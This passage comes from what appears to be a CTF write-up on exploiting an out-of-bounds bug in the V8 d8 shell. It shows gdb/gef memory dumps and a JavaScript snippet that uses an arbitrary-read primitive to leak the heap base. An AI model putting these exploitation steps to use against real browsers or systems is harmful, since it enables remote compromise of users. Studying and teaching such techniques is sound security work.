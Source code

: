 ```javascript
$ gdb ./d8 
gef➤  run --allow-natives-syntax --shell exploit.js
[+] Address of Arbitrary RW Array: 0x64d2a00f499
[+] Float Map: 0x1d8734482ed9
[+] Object Map: 0x1d8734482f79
[+] Map Region Start: 0x1d8734480000
V8 version 7.5.0 (candidate)
d8> ^C
gef➤  vmmap
[...]
0x00001d8734480000 0x00001d87344c0000 0x0000000000000000 rw- 
[...]
0x0000555555554000 0x00005555557e7000 0x0000000000000000 r-- /home/andrej/Desktop/oob-v8/v8/out.gn/x64.release/d8
0x00005555557e7000 0x00005555562af000 0x0000000000293000 r-x /home/andrej/Desktop/oob-v8/v8/out.gn/x64.release/d8
0x00005555562af000 0x00005555562ef000 0x0000000000d5b000 r-- /home/andrej/Desktop/oob-v8/v8/out.gn/x64.release/d8
0x00005555562ef000 0x00005555562f9000 0x0000000000d9b000 rw- /home/andrej/Desktop/oob-v8/v8/out.gn/x64.release/d8
0x00005555562f9000 0x00005555563c6000 0x0000000000000000 rw- [heap]
[...]
0x00007ffff7005000 0x00007ffff71ec000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/libc-2.27.so
0x00007ffff71ec000 0x00007ffff73ec000 0x00000000001e7000 --- /lib/x86_64-linux-gnu/libc-2.27.so
0x00007ffff73ec000 0x00007ffff73f0000 0x00000000001e7000 r-- /lib/x86_64-linux-gnu/libc-2.27.so
0x00007ffff73f0000 0x00007ffff73f2000 0x00000000001eb000 rw- /lib/x86_64-linux-gnu/libc-2.27.so
[...]
gef➤  x/200gx 0x1d8734480000
0x1d8734480000:	0x0000000000040000	0x0000000000000004
0x1d8734480010:	0x00005555563a7f60	0x000055555631a2e0
0x1d8734480020:	0x00001d8734480000	0x0000000000040000
0x1d8734480030:	0x0000555556329b60	0x00001d8734480001
0x1d8734480040:	0x0000555556394e90	0x00001d8734480138
0x1d8734480050:	0x00001d87344c0000	0x0000000000000000
0x1d8734480060:	0x0000000000000000	0x0000000000000000
[...]
```

We can see that, very close to the start of the region, there appear to be two heap addresses (and more later). This makes sense, as many maps will point to areas of the heap as the heap stores dynamically-sized data.

That seems more useful than what we have right now, so let's grab that and see if the offset is constant. Right now, the offsets are `0xaef60` and `0x212e0`. They appear to be constant. Let's throw those leaks in too.

```javascript
let heap_leak = arb_read(map_reg_start + 0x10n);
let heap_base = heap_leak - 0xaef60n;
console.log("[+] Heap Base: 0x" + heap_base.toString(16))
```

It all seems to be pretty good, but a heap leak itself is not the most helpful. Let's keep digging, but looking at the heap this time, as that is probably more likely to store libc or binary addresses.
